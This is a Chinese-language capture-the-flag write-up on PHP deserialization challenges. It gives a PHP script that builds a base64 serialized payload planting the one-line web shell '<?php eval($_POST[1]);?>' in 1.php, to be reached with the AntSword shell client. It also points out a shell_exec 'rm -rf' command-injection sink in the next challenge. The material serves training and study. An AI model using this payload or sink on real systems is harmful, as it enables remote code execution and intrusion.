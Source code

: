 

构造：

```php
<?php

class log{
	public $title='1.php';
	public $info='<?php eval($_POST[1]);?>';


}

class dao {
    private $conn;

    public function __construct() {
        $this->conn = new log();
    }
}
$d = new dao();
echo base64_encode(serialize(new dao()));


TzozOiJkYW8iOjE6e3M6OToiAGRhbwBjb25uIjtPOjM6ImxvZyI6Mjp7czo1OiJ0aXRsZSI7czo1OiIxLnBocCI7czo0OiJpbmZvIjtzOjI0OiI8P3BocCBldmFsKCRfUE9TVFsxXSk7Pz4iO319
```

传参：

![image-20230522234331310](https://raw.githubusercontent.com/leekosss/photoBed/master/202305222343404.png)



蚁剑连接拿flag



### web307

这一题不会调用那个方法了，我们放弃



dao.php中出现可以命令执行的利用点：

```php
class dao{
	private $config;
	private $conn;

	public function __construct(){
		$this->config=new config();
		$this->init();
	}
	public function  clearCache(){
		shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
	}

}
```

